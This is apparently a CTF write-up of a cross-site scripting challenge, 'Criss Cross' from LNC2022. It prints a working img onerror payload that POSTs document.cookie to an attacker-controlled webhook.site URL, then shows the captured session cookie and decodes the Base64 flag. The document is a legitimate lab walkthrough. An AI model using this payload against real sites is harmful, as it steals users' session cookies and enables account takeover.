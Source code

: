 # Criss Cross

---

## Challenge Description 
I heard that HR got a new selenium bot with some really yummy cookies recently! I wonder if I can get some of those cookies for myself...

http://c1.lagncrash.com:9012

---

## Challenge Solution
Upon visiting the link, we see the following page.

![Screenshot 2022-03-28 040307](https://user-images.githubusercontent.com/101789488/160298703-8ffff3f8-7735-4888-ab62-df280add4a48.png)

From the challenge name, we can link `Criss Cross` to [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/). Additionally, from the challenge description we know that the objective is to get some cookies. Since I had not come across a XSS challenge before, I did some research and found this [writeup](https://ctftime.org/writeup/18736).

Since I was introduced to [webhook](https://webhook.site/) by a friend and this writeup made use of it, I copied the script and changed the URL to my own webhook site:
```
<img 
    src="http://url.to.file.which/not.exist" 
    onerror="fetch(
        'https://webhook.site/775ba4ed-07af-44d8-87e1-4ec710a0ce19', {
            method:'POST', 
            body: JSON.stringify({data:document.cookie})
        }
    );">
```

I then submitted this in the feedback box of the webpage.

![Screenshot 2022-03-28 041732](https://user-images.githubusercontent.com/101789488/160299228-3f2b5103-9099-4ad7-bd96-f45c91e1a42b.png)

From my webhook site, I received the POST request with the raw content:
```
{
  "data": "session=XEBKL85O6P6BZPZQ0BKTWMAXB93NS3H0; flag=TE5DMjAyMntjcjFzc19jcjBzc19zMXRlX3NjcjFwdDFuZ30="
}
```

Looking at the value of the flag, we know that it has been encoded using [Base64](https://en.wikipedia.org/wiki/Base64). As such, we will use a [Base64 decoder](https://www.base64decode.org/) to obtain our flag.
```
LNC2022{cr1ss_cr0ss_s1te_scr1pt1ng}
```